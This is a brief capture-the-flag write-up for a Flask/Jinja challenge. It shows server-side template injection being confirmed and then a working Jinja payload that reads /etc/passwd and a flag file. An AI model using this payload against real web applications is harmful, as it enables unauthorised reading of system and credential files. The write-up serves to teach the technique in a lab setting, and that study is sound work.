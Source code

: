 # Mask

This website was developed in Flask. And it uses Jinja as a template engine. this was specifically mentioned on the website.  

So there must be some kind of template injection, to check I submitted `{{ 40 + 2 }}` and it rendered `42` on the page.
![42](1.png)

Then I tried to get `/etc/passwd` with the following template
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
```
![etc/passwd](2.png)

It worked! Next thing to do was to find where the flag was stored, 
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]("flag.txt").read() }}
```
And it worked!
![Flag](2.png)

> ### LLS{server_side_template_injection_unmasked}
